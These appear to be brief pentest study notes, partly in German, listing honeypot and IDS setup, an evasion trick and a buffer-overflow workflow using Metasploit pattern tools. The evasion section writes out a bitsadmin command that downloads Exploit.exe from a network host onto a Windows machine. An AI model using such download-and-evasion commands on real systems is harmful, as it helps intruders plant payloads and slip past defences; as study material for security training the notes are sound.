 
---
## Prevention

Snort -> Windows IDS
cowrie -> Linux Honeypod (files on windows)

    sudo adduser --disabled-password cowrie
    start cowrie
    iptables -t nat -A PREROUTING -p tcp --dport 22 -j REDIRECT --to-port 2222

---
## Evasion: 

Filecopy via BITSAdmin (windows): 

    bitsadmin /transfer Exploit.exe http://10.10.1.13/share/Exploit.exe c:\Exploit.exe

Sessionsplicing mit Whisker


---
## Buffer Overflow:

ImmunityDebugger.exe

Fuzz.py -> 10200

Metasploit/tools/exploit/Pattern_create.rb | 10400

Findoff.py -> insert pattern

Metasploit/tools/exploit/pattern_offset.rb -l 10400 -q OFFSETVALUE  --> 2003

Overwrite.py -> insert 2003

---
## Bonus
Super specific search git
[pentest-hacktricks/pentesting at master · ivanversluis/pentest-hacktricks · GitHub](https://github.com/ivanversluis/pentest-hacktricks/tree/master/pentesting)

